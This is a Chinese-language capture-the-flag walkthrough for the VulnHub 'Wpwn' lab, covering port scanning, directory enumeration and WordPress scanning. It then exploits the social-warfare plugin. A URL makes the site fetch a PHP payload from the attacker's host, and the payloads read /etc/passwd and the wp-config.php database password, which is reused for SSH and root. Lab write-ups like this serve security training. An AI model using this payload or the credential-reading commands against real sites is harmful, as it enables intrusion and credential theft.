









# Wpwn

> https://download.vulnhub.com/wpwn/wpwnvm.zip

靶场IP：`192.168.32.135`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p1-65535 -sV 192.168.2.135
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-06 09:35 EDT
Nmap scan report for 192.168.2.135
Host is up (0.00071s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 00:0C:29:DB:E7:B5 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.96 seconds

```

浏览器访问80端口



爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.2.135/ -w /usr/share/wordlists/dirb/common.txt -t 30                                                                                                                                                  1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.135/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/06 09:37:19 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 134]
/robots.txt           (Status: 200) [Size: 57] 
/server-status        (Status: 403) [Size: 278]
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.2.135/wordpress/]
                                                                                     
===============================================================
2022/09/06 09:37:24 Finished
===============================================================

```

访问：`/wordpress/`



枚举wordpress，发现`social-warfare`插件有漏洞

```
┌──(root💀kali)-[/tmp]
└─# wpscan --url http://192.168.2.135/wordpress/
```




```
┌──(root💀kali)-[/tmp]
└─# echo "<pre>system('cat /etc/passwd')</pre>" >  cmd.txt
```

直接执行命令

```
http://192.168.2.135/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.2.129/cmd.txt
```



```
echo "<pre>system('cat /var/www/html/wordpress/wp-config.php')</pre>
```

```
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```



查看用户密码文件



使用`takis/R3&]vzhHmMn9,:-5`进行ssh登录。



直接su提权




